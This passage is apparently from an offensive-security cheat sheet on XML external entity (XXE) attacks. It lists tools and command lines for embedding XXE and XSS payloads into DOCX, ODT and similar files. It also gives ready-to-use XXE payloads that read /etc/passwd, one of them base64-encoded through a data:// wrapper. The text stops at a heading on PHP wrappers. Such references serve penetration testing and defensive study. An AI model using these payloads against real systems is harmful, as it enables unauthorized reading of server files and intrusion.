 -   [oxml_xxe](https://github.com/BuffaloWill/oxml_xxe) - A tool for embedding XXE/XML exploits into different filetypes (DOCX/XLSX/PPTX, ODT/ODG/ODP/ODS, SVG, XML, PDF, JPG, GIF)
    
```bash
ruby server.rb
```
    
-   [docem](https://github.com/whitel1st/docem) - Utility to embed XXE and XSS payloads in docx,odt,pptx,etc
    
```bash
./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_document -kt -sx docx

./docem.py -s samples/xxe/sample_oxml_xxe_mod1.docx -pm xxe -pf payloads/xxe_special_2.txt -kt -pt per_place

./docem.py -s samples/xss_sample_0.odt -pm xss -pf payloads/xss_tiny.txt -pm per_place

./docem.py -s samples/xxe/sample_oxml_xxe_mod0/ -pm xss -pf payloads/xss_all.txt -pt per_file -kt -sx docx
```
    
-   [otori](http://www.beneaththewaves.net/Software/On_The_Outside_Reaching_In.html) - Toolbox intended to allow useful exploitation of XXE vulnerabilities.

```bash
python ./otori.py --clone --module "G-XXE-Basic" --singleuri "file:///etc/passwd" --module-options "TEMPLATEFILE" "TARGETURL" "BASE64ENCODE" "DOCTYPE" "XMLTAG" --outputbase "./output-generic-solr" --overwrite --noerrorfiles --noemptyfiles --nowhitespacefiles --noemptydirs 
	
```

## MAS PAYLOADS
classic XXE:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>

```

`SYSTEM` and `PUBLIC` are almost synonym.

base64 encoded:

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

XXE with wrappers PHP:

